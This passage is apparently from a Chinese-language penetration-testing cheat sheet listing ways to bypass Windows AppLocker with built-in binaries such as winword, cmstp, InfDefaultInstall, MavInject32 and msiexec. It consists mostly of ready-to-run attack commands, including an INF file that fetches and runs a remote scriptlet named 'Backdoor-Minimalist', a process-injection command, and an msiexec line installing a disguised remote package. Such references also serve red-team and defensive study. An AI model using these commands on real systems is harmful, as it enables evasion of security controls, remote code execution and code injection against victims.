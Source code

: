 - https://evi1cg.me/archives/AppLocker_Bypass_Techniques.html
- https://pentestlab.blog/2017/05/23/applocker-bypass-rundll32/
- https://github.com/redcanaryco/atomic-red-team/blob/master/Windows/Execution/Rundll32.md

#### Winword

利用Office word 的**/l**参数来加载dll文件

```powershell
winword.exe /l dllfile.dll
```

#### Cmstp

通过安装一个VPN配置从Webdav加载DLL，可以参考以下链接

```powershell
cmstp.exe /ni /s c:\cmstp\CorpVPN.inf
```

Links：

- https://msitpros.com/?p=3960
- https://www.anquanke.com/post/id/86685

#### InfDefaultInstall

和cmstp一样用于加载dll

```powershell
InfDefaultInstall.exe shady.inf
```

```inf
[Version] 
Signature=$CHICAGO$

[DefaultInstall]
UnregisterDlls = Squiblydoo

[Squiblydoo]
11,,scrobj.dll,2,60,https://gist.githubusercontent.com/subTee/24c7d8e1ff0f5602092f58cbb3f7d302/raw/ef22366bfb62a2ddea8c5e321d3ce2f4c95d2a66/Backdoor-Minimalist.sct
```

#### MavInject32

MavInject32.exe是微软应用程序虚拟化的一部分，可以直接完成向某一进程注入代码

```powershell
"C:\Program Files\Common Files\microsoft shared\ClickToRun\MavInject32.exe" <PID> /INJECTRUNNING <PATH DLL>
```

#### MSIExec

msiexec是一个可用于从命令行安装或配置产品的Microsoft程序。 如果环境配置不正确，使用.MSI文件可能允许攻击者执行特权升级或绕过AppLocker规则。

```powershell
msiexec /quiet /i cmd.msi 
msiexec /q /i http://192.168.100.3/tmp/cmd.png
```
